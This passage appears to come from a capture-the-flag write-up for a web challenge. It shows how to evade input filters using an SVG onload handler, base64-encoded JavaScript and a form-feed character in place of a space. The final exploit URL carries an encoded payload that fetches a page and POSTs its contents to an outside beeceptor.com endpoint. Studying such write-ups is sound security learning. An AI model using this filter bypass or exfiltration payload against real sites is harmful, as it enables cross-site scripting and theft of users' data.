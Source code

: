 1. No `\n`
2. No `\r`
3. No `\t`
4. No `/`
4. No ` ` (space)

Well that seems hard eh? we can bypass the forward slash contraint using a simple

```html
<svg onload="eval(atob('<our-base-64-javascript-code>'))">
```

But how about the space?

Reverting back to Wikipedia, my source of information (kudos if you get the joke),
we see there exists a Form feed character `(ASCII 12) - (0xC in HEX)`, that is considered whitespace by the C character classification function isspace().

Cool, let's modify the payload to look like this:

```html
<svg%0Conload="eval(atob('<our-base-64-javascript-code>'))">
```

Lastly, to deliver the exploit, we just have to send the payload as a query parameter for `name`,
just like this:

```html
http://idek-hello.chal.idek.team:1337/?name=<svg%0Conload="eval(atob('ZmV0Y2goJ2h0dHA6Ly9pZGVrLWhlbGxvLmNoYWwuaWRlay50ZWFtOjEzMzcvaW5mby5waHAvaW5k
ZXgucGhwJykudGhlbihyPT5yLnRleHQoKSkudGhlbihkPT5mZXRjaCgnaHR0cHM6Ly9xdDFlYTY4
M2EzNjhkYzY1ZDc2YTExM2Y3NGZiLmZyZWUuYmVlY2VwdG9yLmNvbS9zYXZlJywge21ldGhvZDon
UE9TVCcsaGVhZGVyczp7J0NvbnRlbnQtVHlwZSc6J2FwcGxpY2F0aW9uL2pzb24nfSxib2R5OkpT
T04uc3RyaW5naWZ5KHtjb250ZW50OmR9KX0pKQ=='))">
```

Click on submit...

![flag-cookie](/images/2024-08-18-23-44-03.png)

There we go~

---

Flag is: `idek{Ghazy_N3gm_Elbalad}`

Things learned in this challenge:

1. Always use regular expressions to match pathnames.
2. Form feed character can be used as a whitespace inside html tags.
3. Some scripting skills

